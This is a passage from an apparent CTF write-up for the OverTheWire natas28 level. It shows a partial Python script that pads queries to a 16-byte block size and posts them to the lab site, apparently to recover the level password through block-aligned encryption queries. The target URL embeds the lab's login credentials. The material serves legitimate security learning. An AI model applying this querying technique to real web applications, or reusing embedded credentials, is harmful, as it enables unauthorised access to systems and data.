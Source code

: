 There&#8217;s just no way you&#8217;re going to want to do this manually, so here&#8217;s my python script for it:

<pre class="lang:python decode:true">#!/usr/bin/python3.7
#
# main execution script for solving natas28 on OverTheWire.org

import binascii
import urllib as ul
import requests
import time

# All possible characters
allChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
# Final Password
password = ''
# Our target URL
target = "http://natas28:JWwR438wkgTsNKBbcJoowyysdM82YjeF@natas28.natas.labs.overthewire.org"
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101',
}

def urlencode(data):
    return ul.parse.quote_plus(data)


def urldecode(data):
    return ul.parse.unquote_plus(data)


def send_query(query):
    blocksize = 16
    remainder = len(query) % blocksize

    # format query string with correct amount of characters
    f_query = '.' * 10 + str(query) + ' ' * (blocksize - remainder)

    # print query for reference
    print('{' + f_query + '}')

    # send query to site for encryption
    payload = {'query': f_query}
    r = requests.post(target + '/index.php', data=payload, headers=headers, allow_redirects=False)
    # print(r.headers)
